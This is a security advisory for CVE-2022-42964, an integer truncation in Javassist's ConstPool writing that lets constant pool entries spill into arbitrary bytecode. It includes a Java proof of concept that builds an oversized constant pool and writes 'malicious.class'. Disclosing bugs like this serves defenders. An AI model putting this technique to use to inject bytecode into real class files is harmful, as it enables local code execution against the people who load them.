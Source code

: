 ```yaml
---
description: CVE-2022-42964 Low severity. Integer truncation in Javassist leads to local code execution
title: Javassist local code execution
date_published: "2022-08-11"
last_updated: "2022-08-11"
xray_id: 
vul_id: 
cvss: 6.4
severity: low
discovered_by: Omer Kaspi
type: vulnerability

---
```


## Summary

Integer truncation in Javassist leads to local code execution

## Component

[Javassist](https://github.com/jboss-javassist/javassist)

## Affected versions

Javassist (,3.29.1)

## Description

The issue lies in the write() function of the ConstPool object. When writing the ConstPool into a class file, the length field is written as a short integer, but the numOfItems Variable is not checked to see if it is bigger than the maximum value of short (65535). If we try to write a class file with a ConstPool bigger than 65535, the elements from position 65535 onwards wouldn’t be considered as part of the ConstPool, and will be interpreted as arbitrary bytecode. An attacker that can insert arbitrary integers into a classfile, could use this to insert malicious bytecode to the class, for example a constructor which will cause code execution when the class file is loaded



## PoC

```java
import javassist.NotFoundException; 
import javassist.bytecode.ClassFile; 
import javassist.bytecode.ConstPool; 
import java.io.DataOutputStream; 
import java.io.File;

import java.io.FileOutputStream; 
import java.io.IOException; 
public class JavassistIntTruncationExample 
{ 
	public static void main(String argv[]) throws IOException, NotFoundException { 
		File yourFile = new File("malicious.class"); 
		yourFile.createNewFile(); 
		FileOutputStream oFile = new FileOutputStream(yourFile, false); DataOutputStream stream = new DataOutputStream(oFile); 
		ClassFile clazz_file_before_write = new 
		ClassFile(false,"test",null); 
		ConstPool pool_before_write = 
		clazz_file_before_write.getConstPool(); 
		// Adding enough ints to cause integer truncation 
		for(int i = 0; i< 65527; i++) { 
			pool_before_write.addIntegerInfo(0xcafebabe); 
		} 
		// BUG: This integer will be added as arbitrary bytecode! 
		pool_before_write.addIntegerInfo(0xdeadbeef); 
		System.out.println("Constpool size" + pool_before_write.getSize()); clazz_file_before_write.write(stream); 
	} 
} 

```



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[GitHub issue](https://github.com/jboss-javassist/javassist/issues/423)